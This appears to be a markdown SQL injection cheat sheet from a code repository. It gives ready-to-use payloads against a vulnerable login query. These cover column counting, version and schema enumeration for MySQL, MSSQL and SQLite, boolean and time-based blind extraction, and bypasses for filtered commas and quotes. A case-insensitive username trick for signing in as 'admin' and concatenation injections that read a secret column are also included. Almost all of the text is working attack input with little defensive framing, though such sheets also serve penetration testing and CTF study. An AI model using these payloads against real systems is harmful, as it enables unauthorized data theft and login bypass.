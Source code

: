 ###### In the following queries, `'` may not work sometimes, so { **\`**,`"` } can  be tested
###### To comment out the remaining code, { `;#`,`;--`,`;//` } can be used
###### While doing sqli through urls, { `;#`,`;--`,`;//` } need to be encoded specially 

### Finding no of columns in table _(Error-based SQLI)_
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
  
* _[$input_user]_ : `' UNION SELECT 1,2,3.. FROM table_name --`
* _[$input_user]_ : `' ORDER BY n --`  [If we get error for n, then n-1 will be no of columns]
 
### Limiting no of rows
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
  
* _[$input_user]_ : `' OR 1=1 LIMIT 1 --`

## For Mysql
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
###### Assume no of columns to be 3
#### Finding version and databases
*  _[$input_user]_ : `' UNION SELECT 1,@@version,database() --`

#### Extracting Tables from databases
*  _[$input_user]_ : `' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()`

#### Extracting columns from databases
*  _[$input_user]_ : `' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database()`
*  _[$input_user]_ : `' UNION SELECT table_name, column_name, 1 FROM information_schema.columns`

### Fetching a particular column without knowing column's name
* `SELECT F.4 FROM (SELECT 1, 2, 3, 4 UNION SELECT * FROM users)F;` will fetch 4th column of `users`.

  It works because the column names of the table derived from the subselect are the values of the leftmost `SELECT`
## For Mssql
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
###### Assume no of columns to be 3
#### Finding version and databases
*  _[$input_user]_ : `' UNION SELECT 1,@@version,db_name(i) --` [Here **i** is the i-th database present]
*  _[$input_user]_ : `' UNION SELECT 1,@@version,name FROM master..sysdatabases --`

__[In MsSQL, if second colums is `username` then the payload `' UNION SELECT 1,1,name FROM master..sysdatabases --` won't work , second column MUST be a string. Interesting !!]__

## For sqlite
 In sqlite __sqlite_master__ replaces __information_schema__
 
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
#### Extracting sqlite version
  _[$input_user]_ : `' UNION SELECT sqlite_version()`
#### Extracting table names
  _[$input_user]_ : `' UNION SELECT name FROM sqlite_master WHERE type='table'`
#### Extracting column names from a table
  _[$input_user]_ : `' UNION SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name = 'table_name'`

## Blind SQLI
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
  
*  _[$input_user]_ : `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "%a%") --`   [It will ask whether a user with letter "a" or "A" containing in his name]
*  _[$input_user]_ : `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "__a%") --`	 [It will ask whether the letter is at 3rd place or NOT]

  HERE `%`,`_` are WILDCARDS. `%` matches any string and `_` matches only one character

* By default, LIKE is __case-insensitive__

  _[$input_user]_ : `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE BINARY "%a%") --` [To make a case sensitive search, use BINARY right after LIKE]

## Time-based Blind SQLI
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
#### MySQLI
*  _[$input_user]_ : `' OR (SELECT SLEEP(10) FROM table_name WHERE username='something') --`
*  _[$input_user]_ : `' OR IF(username='something',SLEEP(10),0) --`

    [Produces a delayed response if username=`something` exists]
#### SQLite
* _[$input_user]_ : `' OR CONDITION='true' AND 1=randomblob(100000000) --`

    [Produces a delayed response if CONDITION='true']

## Bypassing BLACKLISTED CHARS
* `,` using `JOIN`

  `SELECT 1,2,3 FROM users` : `SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c`

* Bypassing filtered `'`__[quote]__ (special case)

```   
 <?php 
 $name = preg_replace("'","",$name);
 $pass = preg_replace("'","",$pass);
 SELECT * FROM users WHERE username='name' and password='pass'
```
  _[attack]_ => user = `\`  & pass = `OR 1=1 --`

## Common-errs
* `mysql` does a case insensitive search by default and also ignores the trailing spaces

   How to exploit that?
   
   A username `Admin` can be created and it can be used to sign-in as `admin`

## Unique-injection
  *
   ```
    '||(select tbl_name FROM sqlite_master)||'
    '||(select sql FROM sqlite_master)||'
    '||(select secret FROM user WHERE id =1)||'
   ```
   
